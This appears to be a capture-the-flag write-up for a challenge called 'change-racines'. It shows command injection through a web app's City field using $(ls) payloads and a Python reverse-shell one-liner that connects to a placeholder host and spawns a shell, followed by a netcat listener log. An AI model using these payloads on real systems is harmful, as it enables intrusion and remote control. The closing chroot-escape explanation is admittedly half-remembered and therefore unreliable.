

# change-racines
# Flag 1

## Recon

Information available:
- http://REDACTED:9090
- https://www.cheswick.com/ches/papers/berferd.pdf

The app: 



There is a City field and a refresh button

Without any value in the city field, lets hit refresh:
```python
(b'\n', None)
```
Well well well, look like python to me!

`None` Lets try a string in the city field now:

```python
(b'PlatypusJovial\n', None)
```
Humm, straith python?
`import os; print('\n'.join(os.listdir('.')))`

```python
(b"/bin/bash: -c: line 1: syntax error near unexpected token `'\\n'.join'\n/bin/bash: -c: line 1: `echo import os; print('\\n'.join(os.listdir('.')))'\n", None)
```

/bin/bash -c.. humm `ls`?
```python
(b'ls\n', None)
```

Humm `$(ls)`
```python
(b'__pycache__ app.py bin etc flag1 get-pip.py lib lib64 python root templates usr\n', None)
```

That was an easy one `$(cat flag1)`
```python
(b'/bin/bash: line 1: cat: command not found\n\n', None)
```
Aw.. oh.. maybe not so easy. Clearly python is there somewhere! Is it time for a python a reverse shell?
https://www.revshells.com

Had to adapt it to the situation
```python
$(./python/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')
```

And finally.. i broke the toy.. (On the writeups instance)
```python
nc -lvnp REDACTED
listening on [any] REDACTED ...

connect to [REDACTED] from (UNKNOWN) [REDACTED] REDACTED
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/python/lib/python3.9/pty.py", line 156, in spawn
    pid, master_fd = fork()
  File "/python/lib/python3.9/pty.py", line 97, in fork
    master_fd, slave_fd = openpty()
  File "/python/lib/python3.9/pty.py", line 30, in openpty
    master_fd, slave_name = _open_terminal()
  File "/python/lib/python3.9/pty.py", line 60, in _open_terminal
    raise OSError('out of pty devices')
OSError: out of pty devices
```
Oh ... 

Available binary: `bash ls rm touch`
I don't even remember how I did it...so i think it was a python reverse shell. Then you create a new `chroot` and linux can't handle 2 `chroot` at the same time
So it lead to break out of it

If the instance get fixed I will update the solution
